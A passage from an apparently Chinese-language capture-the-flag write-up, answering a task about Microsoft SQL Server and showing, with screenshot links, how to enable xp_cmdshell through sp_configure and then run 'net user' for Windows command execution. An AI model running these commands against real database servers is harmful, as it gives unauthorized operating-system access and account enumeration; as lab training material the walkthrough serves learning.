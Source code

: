输出为1，转换为True。

任务 5

可以使用 Microsoft SQL Server 的哪些扩展存储过程来生成 Windows 命令 shell？xp_cmdshell



在前面的备忘单中，我们还发现了如何通过xp_cmdshell设置命令执行:

执行xp_cmdshell发现被禁用。

```
EXEC xp_cmdshell 'net user';
```

![image-20230607194300728](图片/image-20230607194300728.png)

这将打开高级选项，并且需要配置xp_cmdshell

```
EXEC sp_configure 'show advanced options', '1';
RECONFIGURE;
```

启用xp_cmdshell

```
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE;
```

![image-20230607212151096](图片/image-20230607212151096.png)

试了很多次使用net user 回显了，终于激活了

```
EXEC xp_cmdshell 'net user';
```

![image-20230607212219381](图片/image-20230607212219381.png)